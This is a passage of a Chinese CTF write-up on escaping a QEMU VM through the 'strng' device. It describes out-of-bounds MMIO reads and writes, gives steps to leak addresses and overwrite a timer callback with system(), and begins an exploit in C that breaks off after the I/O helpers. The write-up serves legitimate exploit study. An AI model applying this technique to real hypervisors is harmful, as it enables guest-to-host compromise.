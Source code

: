 ```
0000002C                 db ? ; undefined
0000002D                 db ? ; undefined
0000002E                 db ? ; undefined
0000002F                 db ? ; undefined
00000030 QEMUTimer_0     ends
```

上图可以明显看到一个mmio_read中有越界读漏洞, mmio_write中有越界写漏洞. 结合 `STRNGState` 这个结构体的内容可以看到 regs 后面接的是 一个 `QEMUTimer_0` 结构体. 这个结构体是一个定时器. 其中 cb 是函数指针(callback function), 而 opaque 就是传给 callback function 的参数.

而在 pmio_write 函数中可以启动定时器.

所以利用思路就很简单了.
1. 因为 `QEMUTimer_0` 的cb 初始化时是指向 elf中的一个函数的, 所以我们可以利用越界读把这个地址读出来, 从而拿到 elf 的基地址, 绕过 PIE.
1. 利用 `QEMUTimer_0` 的 opaque leak 堆地址
1. 往 regs[3]-regs[6] 中写入字符串 “cat /root/flag”
1. 利用pwndbg 的probeleak命令在 堆上找到一个指向libc 的地址, leak libc地址
1. 把 cb 修改为 system 地址
1. 把 opaque 修改为 “cat /root/flag”的地址
1. 启动定时器.
(其实不leak libc地址也可以, 有了 elf 基地址之后可以用 system[@plt](https://github.com/plt) 的地址)



## 3. exploit

```
//cc -m32 -O0 -static -o exp exp.c
#include &lt;assert.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;inttypes.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
#include&lt;sys/io.h&gt;

#define MMIO_FILE "/sys/devices/pci0000:00/0000:00:04.0/resource0"
#define PMIO_BASE 0xc050
char* MMIO_BASE;

void die(char* msg)`{`
    perror(msg);
    exit(-1);
`}`

void init_io()`{`
    int mmio_fd = open(MMIO_FILE, O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("open mmio file error");
    MMIO_BASE = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (MMIO_BASE == MAP_FAILED)
        die("mmap mmio file failed");
    if (iopl(3) != 0)
        die("io permission requeset failed");
`}`

uint32_t pmio_read(uint32_t offset)`{`
    return (uint32_t)inl(PMIO_BASE + offset);
`}`

void pmio_write(uint32_t offset, uint32_t val)`{`
    outl(val, PMIO_BASE + offset);
```